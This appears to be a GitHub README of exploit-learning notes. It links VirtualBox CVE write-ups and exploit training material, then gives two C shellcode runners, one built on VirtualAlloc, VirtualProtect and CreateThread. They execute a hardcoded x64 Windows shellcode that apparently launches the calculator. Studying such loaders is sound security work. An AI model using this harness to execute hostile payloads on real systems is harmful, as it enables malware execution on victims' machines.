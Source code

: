 # Exploit-Application
> Target Analysis CVE
- `VirtualBox`
  * [CVE-Virtual Box](https://qriousec.github.io/post/vbox-pwn2own-2023/) .
  * https://starlabs.sg/blog/2020/04-adventures-in-hypervisor-oracle-virtualbox-research/ .
  * https://github.com/hongphipham95/Vulnerabilities .
  * `Interesting series on how virtualization works (VMware, XEN, QEMU)`: https://twitter.com/0xor0ne/status/1699482783557534073?s=46

- References:
  * `Browser Exploit`: https://github.com/qazbnm456/awesome-cve-poc#cve-2011-2856
  * `LPEworkshop`: https://github.com/sagishahar/lpeworkshop
  * `Modern Binary Difing`: https://docs.google.com/presentation/d/1aLPjH3_4v6Zt2cwzROzMKVBqf8w7vwYfzJCRFbA-xGQ/edit#slide=id.p
  * `Github star`: https://github.com/stars/nigmaz/lists/writeup-exploit-training
  * Questions
    + Begin analysis CVE Linux app service ?
    + Beginner to Advanced Bug Bounty Hunting Course ?


- Shellcode Test
```c
#include <windows.h>
#include <stdio.h>

char code[] = "\x48\x31\xff\x48\xf7\xe7\x65\x48\x8b\x58\x60\x48\x8b\x5b\x18\x48\x8b\x5b\x20\x48\x8b\x1b\x48\x8b\x1b\x48\x8b\x5b\x20\x49\x89\xd8\x8b"
"\x5b\x3c\x4c\x01\xc3\x48\x31\xc9\x66\x81\xc1\xff\x88\x48\xc1\xe9\x08\x8b\x14\x0b\x4c\x01\xc2\x4d\x31\xd2\x44\x8b\x52\x1c\x4d\x01\xc2"
"\x4d\x31\xdb\x44\x8b\x5a\x20\x4d\x01\xc3\x4d\x31\xe4\x44\x8b\x62\x24\x4d\x01\xc4\xeb\x32\x5b\x59\x48\x31\xc0\x48\x89\xe2\x51\x48\x8b"
"\x0c\x24\x48\x31\xff\x41\x8b\x3c\x83\x4c\x01\xc7\x48\x89\xd6\xf3\xa6\x74\x05\x48\xff\xc0\xeb\xe6\x59\x66\x41\x8b\x04\x44\x41\x8b\x04"
"\x82\x4c\x01\xc0\x53\xc3\x48\x31\xc9\x80\xc1\x07\x48\xb8\x0f\xa8\x96\x91\xba\x87\x9a\x9c\x48\xf7\xd0\x48\xc1\xe8\x08\x50\x51\xe8\xb0"
"\xff\xff\xff\x49\x89\xc6\x48\x31\xc9\x48\xf7\xe1\x50\x48\xb8\x9c\x9e\x93\x9c\xd1\x9a\x87\x9a\x48\xf7\xd0\x50\x48\x89\xe1\x48\xff\xc2"
"\x48\x83\xec\x20\x41\xff\xd6";

int main(int argc, char **argv)
{
  int (*func)();
  func = (int(*)()) code;
  (int)(*func)();
}
```

- https://www.exploit-db.com/shellcodes/49819

```c
// runShellcode.c
// C Shellcode Run Code referenced from reenz0h (twitter: @sektor7net)
#include <windows.h>
void main() {
    void* exec;
    BOOL rv;
    HANDLE th;
    DWORD oldprotect = 0;
    // Shellcode
    unsigned char payload[] =
        "\x48\x31\xff\x48\xf7\xe7\x65\x48\x8b\x58\x60\x48\x8b\x5b\x18\x48\x8b\x5b\x20\x48\x8b\x1b\x48\x8b\x1b\x48\x8b\x5b\x20\x49\x89\xd8\x8b"
        "\x5b\x3c\x4c\x01\xc3\x48\x31\xc9\x66\x81\xc1\xff\x88\x48\xc1\xe9\x08\x8b\x14\x0b\x4c\x01\xc2\x4d\x31\xd2\x44\x8b\x52\x1c\x4d\x01\xc2"
        "\x4d\x31\xdb\x44\x8b\x5a\x20\x4d\x01\xc3\x4d\x31\xe4\x44\x8b\x62\x24\x4d\x01\xc4\xeb\x32\x5b\x59\x48\x31\xc0\x48\x89\xe2\x51\x48\x8b"
        "\x0c\x24\x48\x31\xff\x41\x8b\x3c\x83\x4c\x01\xc7\x48\x89\xd6\xf3\xa6\x74\x05\x48\xff\xc0\xeb\xe6\x59\x66\x41\x8b\x04\x44\x41\x8b\x04"
        "\x82\x4c\x01\xc0\x53\xc3\x48\x31\xc9\x80\xc1\x07\x48\xb8\x0f\xa8\x96\x91\xba\x87\x9a\x9c\x48\xf7\xd0\x48\xc1\xe8\x08\x50\x51\xe8\xb0"
        "\xff\xff\xff\x49\x89\xc6\x48\x31\xc9\x48\xf7\xe1\x50\x48\xb8\x9c\x9e\x93\x9c\xd1\x9a\x87\x9a\x48\xf7\xd0\x50\x48\x89\xe1\x48\xff\xc2"
        "\x48\x83\xec\x20\x41\xff\xd6";
    unsigned int payload_len = 205;
    exec = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    RtlMoveMemory(exec, payload, payload_len);
    rv = VirtualProtect(exec, payload_len, PAGE_EXECUTE_READ, &oldprotect);
    th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)exec, 0, 0, 0);
    WaitForSingleObject(th, -1);
}
```
